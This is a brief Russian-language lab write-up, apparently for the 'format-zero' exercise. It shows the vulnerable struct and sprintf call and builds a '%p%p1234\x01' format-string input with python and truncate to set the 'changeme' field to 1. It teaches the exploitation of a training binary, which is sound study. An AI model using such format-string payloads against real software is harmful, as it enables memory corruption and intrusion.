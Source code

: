 Задача - изменить значение поля `changeme` в структуре 
```
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
```

Уязвимое место 
```
char buffer[16];
sprintf(locals.dest, buffer);
```

т.к. адрес в формате строки занимает 14 байт, надо сформировать строку "%p%p1234\x01", чтобы `changeme` стало = 1

Заполняем файл inputfileFZ
```
python -c "print('%p%p1234\x01')" > inputfileFZ
```

И убираем байт \0a
```
truncate -s -1 inputfileFZ
```

Параметры buffer и dest до вызова функции\
![alt text](../images/format-zero/1.png)

Содержимое dest и changeme\
![alt text](../images/format-zero/2.png)

Победа\ 
![alt text](../images/format-zero/3.png)